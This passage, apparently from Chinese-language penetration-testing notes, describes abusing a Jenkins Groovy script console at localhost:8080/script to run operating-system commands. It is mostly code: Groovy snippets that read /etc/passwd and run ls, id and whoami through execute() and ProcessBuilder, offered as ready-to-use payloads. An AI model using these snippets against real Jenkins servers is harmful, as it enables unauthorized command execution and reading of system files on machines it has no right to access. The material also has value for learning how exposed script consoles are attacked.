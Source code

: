 ![image-20240329105953972](attachments/image-20240329105953972.png)

## 0x04 Script Groovy 执行 (Node 利用)

http://localhost:8080/script

就是 Groovy 执行的语法，提供几个常用

### 普通执行

```
println "cat /etc/passwd".execute().text

println new ProcessBuilder('sh','-c','ls').redirectErrorStream(true).start().text
```

```
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());

def proc = ['bash', '-c', '''whoami'''].execute();
```
